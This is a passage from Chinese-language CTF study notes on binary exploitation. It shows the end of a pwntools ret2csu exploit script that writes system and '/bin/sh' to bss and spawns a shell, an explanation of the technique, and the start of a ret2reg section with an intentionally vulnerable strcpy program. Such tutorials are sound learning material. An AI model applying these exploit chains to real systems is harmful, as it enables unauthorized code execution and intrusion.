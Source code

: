 ```plain
p.recvuntil('Hello, World\n')
csu(0,1,read_got_addr,16,bss_addr,0,main_got_addr)             
p.send(p64(system_addr)+'/bin/sh\x00')

#第三次发送payload，执行system函数
p.recvuntil('Hello, World\n')
csu(0,1,bss_addr,0,0,bss_addr+8,main_got_addr)             

p.interactive()
```

### 思路

*   利用栈溢出执行 libc\_csu\_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
*   根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
*   再次利用栈溢出执行 libc\_csu\_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
*   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。

### 疑问

*   上述思路中，能不能省去第三步，直接通过版本找到字符串/bin/sh的地址，然后利用栈溢出传入地址直接执行？
    
    答：不可以，因为这条指令的原因mov edi, r15d，它只能将r15低32位赋给edi,而bss段地址本身比较低，高32位为0不影响赋值后rdi的结果
    
*   如果system函数不行可以尝试使用execve
    

## ret2reg

### 原理（思路）

1.  查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2.  然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
3.  reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

### 利用

源程序：

```plain
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}
int main(int argc, char **argv) {
        evilfunction(argv[1]);
        return 0;
}
```

编译：
